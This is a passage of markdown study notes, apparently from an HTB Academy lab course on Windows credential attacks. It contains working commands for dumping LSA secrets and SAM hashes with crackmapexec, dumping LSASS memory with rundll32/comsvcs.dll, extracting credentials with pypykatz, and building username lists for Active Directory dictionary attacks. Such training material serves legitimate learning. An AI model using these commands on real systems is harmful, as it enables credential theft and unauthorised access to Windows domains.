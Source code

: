 - Dumping LSA secrets remotely
  - `crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa`
- Dumping SAM remotely
  - `crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam`

# Attacking LSAAS

LSAAS is responsible for enforcing the security policy on the system.

it verifies users logging on to a windows computer or server

It handles password changes and creates access tokens

`lsaas holds paswords, credentials, hashes and other keys used to make access across windows domain in memory`

`mimikatz` is used to get those credentials

## Dumping LSASS Process Memory

- using taskmanager
  `Open Task Manager` > `Select the Processes tab` > `Find & right click the Local Security Authority Process` > `Select Create dump file`
  file called `lsass.DMP` is saved in `C:\Users\loggedonusersdirectory\AppData\Local\Temp`
- Rundll32.exe & Comsvcs.dll method (antivirus recognize this method)
  - get pid assigned to lsass.exe using
    - `tasklist /svc` → in cmd
    - `Get-Process lsass` → powershell
  - after we get the pid
    - `rundll32 C:\windows\system32\comsvcs.dll, MiniDump 656 C:\lsass.dmp full` → in powershell as administrator
  then transfer this lsass.dmp file to attacker machine (using method studied in Attacking sam section)

## **Using Pypykatz to Extract Credentials**

`pypykatz` is implementation of `mimikatz` in python language , earlier version of mimikatz we only supported on windows so pypykatz originated

once we get `lsass.dmp` file, we can proceed to crack it in our local machine.

- `pypykatz lsa minidump /home/peter/Documents/lsass.dmp`

# **Attacking Active Directory & NTDS.dit**

in this section we will use dictionary attack against AD accounts and dumping hashes from the NTDS.dit file

### **Creating a Custom list of Usernames**

- `./username-anarchy -i /home/ltnbob/names.txt` here names.txt is the file consisting list of Names, then this tool will give us usernames from this real name list.
